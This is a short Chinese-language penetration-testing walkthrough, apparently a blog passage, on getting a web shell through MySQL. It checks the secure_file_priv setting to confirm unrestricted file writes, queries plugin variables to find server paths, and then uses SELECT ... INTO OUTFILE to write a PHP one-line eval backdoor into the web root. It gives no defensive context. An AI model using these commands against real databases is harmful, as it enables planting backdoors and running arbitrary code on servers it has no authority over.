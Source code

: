 
### 查看是否有可写权限

查看下是否有写入权限，具体命令如下

```plain
show variables like "secure_file_priv";
```

[![](assets/1706496403-95db5b4ace3cba57241ab7f19c7036ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121420-8b733658-bcca-1.png)

发现`Value`为空，说明写入没限制。

### 获取具体路径

接下来查看`plugin`目录获取路径

```plain
show variables like "%plugin%";
```

[![](assets/1706496403-359c177cd5e1a618e0009aa395a22eb4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121426-8f5fd73a-bcca-1.png)

### 写 Shell

获取到路径，接下来写入一句话木马

```plain
select "<?php @eval($_POST[1]);?>" into outfile "C:\\phpstudy_pro\\www\\shell.php"
```
